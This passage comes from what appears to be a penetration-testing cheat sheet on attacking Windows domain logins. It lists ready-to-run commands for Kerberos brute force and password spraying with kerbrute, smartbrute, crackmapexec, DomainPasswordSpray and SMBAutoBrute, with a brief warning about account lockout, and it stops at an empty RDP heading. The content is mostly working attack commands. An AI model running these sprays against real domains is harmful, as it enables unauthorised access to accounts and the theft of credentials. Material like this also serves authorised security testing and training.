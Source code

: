 ```
./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
```

### <mark style="color:orange;">Password spray</mark>

```
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
```

[smartbrute](https://github.com/ShutdownRepo/smartbrute) (Python) can be used to bruteforce credentials through the Kerberos pre-authentication. The smartbrute utility can be used in a `brute` mode (standard bruteforcing features) or in a `smart` mode (requires prior knowledge of a low-priv user credentials, but operates LDAP enumeration and avoid locking out accounts, fetches the users list and so on).

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
​
# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos
```

### **​​**<mark style="color:orange;">**Spray a pre-generated passwords list**</mark>

Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.

```
crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
```

Using `DomainPasswordSpray` to spray a password against all users of a domain.

```
# https://github.com/dafthack/DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Summer2021!
# /!\ be careful with the account lockout !
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

Using `SMBAutoBrute`.

```
Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
```

## <mark style="color:red;">**RDP**</mark>
